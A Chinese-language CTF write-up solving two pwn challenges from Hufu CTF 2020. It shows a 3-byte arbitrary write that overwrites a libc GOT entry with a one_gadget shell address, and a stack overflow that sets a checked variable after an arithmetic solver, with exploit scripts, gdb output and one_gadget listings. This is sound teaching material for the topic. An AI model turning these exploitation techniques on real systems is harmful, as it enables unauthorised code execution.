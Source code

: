 # i春秋虎符CTF

又是一个比赛多到爆炸的周末，[UMDCTF 2020](http://taqini.space/2020/04/19/UMDCTF-2020-Pwn-writeup/)、[WPICTF 2020](http://taqini.space/2020/04/20/WPICTF-2020-pwn-linux-wp/)、[PlaidCTF 2020](https://ctftime.org/event/936)(tnl签完到就溜了)，西工大的NPUCTF(平台貌似挂了很久)，还有就是很久以前报名的虎符CTF啦。比赛时间不长，早上九点到下午五点，但是作为一名萌新pwn手，只做出来两道最简单的pwn。

> 剩下两题都是藕不喜欢做的堆题._.

# MarksMan (145pt)

- 题目描述：
  
    > The marksman can shoot very accurately!
    >
    > nc 39.97.210.182 10055
- 题目附件：[chall](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/icq-HFCTF2020/pwn/chall/chall)
- 考察点：任意写(3字节)
- 难度：一般

## 程序分析

很常规的一道内存任意写的题目，程序开头给了`puts`的地址，甚至都不需要泄漏libc。主要代码如下：

```c
  ptr = get_l();
  for ( i = 0; i <= 2; ++i ){
    puts("biang!");
    read(0, &src[i], 1uLL);
    getchar();
  }
  if ( goldfinger(src) ){
    for ( j = 0; j <= 2; ++j )
      *(j + ptr) = src[j];
  }
  if ( !dlopen(0LL, 1) )
    exit(1);
  puts("bye~");
  return 0LL;
```

先读一个指针，然后依次读三个字节，这三个字节的数据将会覆盖到指针执向内存的后三个字节。

## 解题思路

既然给了libc，那就找libc中的函数指针就行啦。

gdb跟进`dlopen`，发现`_dlerror_run+96`这里有个plt函数的调用：

```c
 ► 0x7ffff7bd2730 <_dlerror_run+96>     call   _dl_catch_error@plt <0x7ffff7bd1d90>
        rdi: 0x7ffff7dd40f0 (last_result+16) ◂— 0x0
        rsi: 0x7ffff7dd40f8 (last_result+24) ◂— 0x0
        rdx: 0x7ffff7dd40e8 (last_result+8) ◂— 0x0
        rcx: 0x7ffff7bd1f40 (dlopen_doit) ◂— push   rbx
```

跟进查看`_dl_catch_error`的plt表:

```c
► 0x7ffff7bd1d90 <_dl_catch_error@plt>             jmp    qword ptr [rip + 0x2022a2] <0x7ffff7dd4038>
   0x7ffff7bd1d96 <_dl_catch_error@plt+6>           push   4
   0x7ffff7bd1d9b <_dl_catch_error@plt+11>          jmp    0x7ffff7bd1d40
```

查看GOT表中的值：

```c
pwndbg> x/xg 0x7ffff7dd4038
0x7ffff7dd4038:	0x00007ffff7bd1d96
```

显然是个libc的函数，但是不知道是啥，不过那并不重要..只要是libc的就好，用任意写3字节直接覆盖后3字节，把他改成`one_gadget`就行了。

![](http://image.taqini.space/img/20200419193210.png)

## exp

对应exp如下：

```python
libc_got = 0x5f4038
og_off  = 0xe569f  # r12==NULL | r14==NULL

got = libcbase+libc_got
info_addr('got',got)
og = libcbase+og_off
info_addr('og',og)
ru('shoot!shoot!\n')
sl(str(got))
ru('biang!\n')
sl(p8(og&0xff))
ru('biang!\n')
sl(p8((og>>8)&0xff))
ru('biang!\n')
debug('b *$rebase(0xd63)')
sl(p8((og>>16)&0xff))
```

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/icq-HFCTF2020/pwn/chall) 

## More

对了，代码里有个什么金手指函数：

```c
  if ( goldfinger(src) ){
    for ( j = 0; j <= 2; ++j )
      *(j + ptr) = src[j];
  }

signed __int64 __fastcall goldfinger(_BYTE *a1)
{
  if ( (*a1 != 0xC5u || a1[1] != 0xF2u) && (*a1 != 0x22 || a1[1] != 0xF3u) && *a1 != 0x8Cu && a1[1] != 0xA3u )
    return 1LL;
  puts("You always want a Gold Finger!");
  return 0LL;
}
```

调试的时候一直都是返回1，我就没搭理他，想着应该是没啥用的函数。

后来找`one_gadget`的时候发现原来是禁用了几个gadget，然鹅那么多gadget禁用了几个算啥，我用其他的就好了...出题人憨憨...

```bash
% one_gadget ./libc.so.6 -l2
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe569f execve("/bin/sh", r14, r12)
constraints:
  [r14] == NULL || r14 == NULL
  [r12] == NULL || r12 == NULL

0xe5858 execve("/bin/sh", [rbp-0x88], [rbp-0x70])
constraints:
  [[rbp-0x88]] == NULL || [rbp-0x88] == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe585f execve("/bin/sh", r10, [rbp-0x70])
constraints:
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe5863 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0x10a398 execve("/bin/sh", rsi, [rax])
constraints:
  [rsi] == NULL || rsi == NULL
  [[rax]] == NULL || [rax] == NULL

```

> `one_gadget`默认显示限制比较少的gadget，用`-l`参数可以设置显示级别，显示更多的gadget

这道题直接用 `r14 == NULL || r12 == NULL`这个就行。



# count (57pt)
- 题目描述：
  
    > 破绽在推算之后。
    >
    > nc 39.97.210.182 40285
- 题目附件：[count](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/icq-HFCTF2020/pwn/count/count)
- 考察点：ppc
- 难度：简单

## 程序分析
题目是arm64框架的，我懒得装环境了... 不过不影响做题。

先是200次的四则运算，全算对后读110字节到`v8`，然后判断`v9`的值，正确就给shell。

```c
  v9 = 0x100;
  read(0LL, &v8, 110LL);
  if ( v9 == 0x12235612 )
  {
    v5 = puts("get it ~");
    sub_400920(v5);
  }
```

显然是bof，溢出`v8`，覆盖`v9`。

## 解题思路

通过静态分析可以得到偏移量

```c
  __int64 v8; // [xsp+78h] [xbp+78h]
  int v9; // [xsp+DCh] [xbp+DCh]
```

> 0xdc-0x78 = 100

写脚本通过200次运算，然后去覆盖变量即可：

```python
for i in range(200):
    ru('Math: ')
    print 'Time: %d'%i
    equal=ru('= ???input answer:')
    sl(str(eval(equal)))
ru('good !')

payload = cyclic(100)
payload+= p32(0x12235612)
payload+= p32(0)
sl(payload)
```

## More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/icq-HFCTF2020/pwn/count) 

